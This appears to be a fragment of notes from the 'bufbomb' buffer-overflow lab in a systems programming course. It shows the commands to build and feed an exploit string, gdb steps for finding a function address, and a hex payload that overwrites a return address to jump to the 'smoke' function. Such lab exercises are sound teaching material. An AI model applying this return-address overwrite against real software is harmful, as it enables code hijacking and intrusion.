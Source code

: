 chmod u+x sendstring
chmod u+x makecookie
chmod u+x bufbomb


./sendstring < exploit.txt > exploit-raw.txt && ./bufbomb -t SA18225155 < exploit-raw.txt 

./sendstring < exploit.txt > exploit-raw.txt && ./bufbomb -t SA22011105 < exploit-raw.txt



./sendstring < exploit.txt > exploit-raw.txt

./bufbomb -t SA22011105 < exploit-raw.txt

gdb ./bufbomb
set args -t SA22011105 < exploit-raw.txt

b *0x8048dd6

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08

x/s $ebp-0xc

p/x &smoke